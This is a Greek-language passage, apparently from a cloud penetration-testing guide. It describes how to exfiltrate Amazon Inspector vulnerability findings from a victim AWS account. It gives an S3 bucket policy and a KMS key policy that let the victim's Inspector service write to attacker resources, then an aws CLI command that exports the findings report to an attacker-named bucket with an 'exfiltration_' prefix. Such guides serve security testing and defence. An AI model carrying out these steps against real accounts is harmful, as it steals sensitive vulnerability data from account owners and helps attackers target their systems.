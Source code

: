 1. **Δημιουργήστε ένα Amazon S3 Bucket** και επισυνάψτε μια πολιτική σε αυτό ώστε να είναι προσβάσιμο από το θύμα Amazon Inspector:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "allow-inspector",
"Effect": "Allow",
"Principal": {
"Service": "inspector2.amazonaws.com"
},
"Action": ["s3:PutObject", "s3:PutObjectAcl", "s3:AbortMultipartUpload"],
"Resource": "arn:aws:s3:::inspector-findings/*",
"Condition": {
"StringEquals": {
"aws:SourceAccount": "<victim-account-id>"
},
"ArnLike": {
"aws:SourceArn": "arn:aws:inspector2:us-east-1:<victim-account-id>:report/*"
}
}
}
]
}
```
2. **Δημιουργήστε ένα κλειδί Amazon KMS** και επισυνάψτε μια πολιτική σε αυτό ώστε να είναι χρησιμοποιήσιμο από τον Amazon Inspector του θύματος:
```json
{
"Version": "2012-10-17",
"Id": "key-policy",
"Statement": [
{
...
},
{
"Sid": "Allow victim Amazon Inspector to use the key",
"Effect": "Allow",
"Principal": {
"Service": "inspector2.amazonaws.com"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
"kms:ReEncrypt*",
"kms:GenerateDataKey*",
"kms:DescribeKey"
],
"Resource": "*",
"Condition": {
"StringEquals": {
"aws:SourceAccount": "<victim-account-id>"
}
}
}
]
}
```
3. Εκτελέστε την εντολή για **να δημιουργήσετε την αναφορά ευρημάτων** εξάγοντας την:
```bash
aws --region us-east-1 inspector2 create-findings-report --report-format CSV --s3-destination bucketName=<attacker-bucket-name>,keyPrefix=exfiltration_,kmsKeyArn=arn:aws:kms:us-east-1:123456789012:key/1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f
```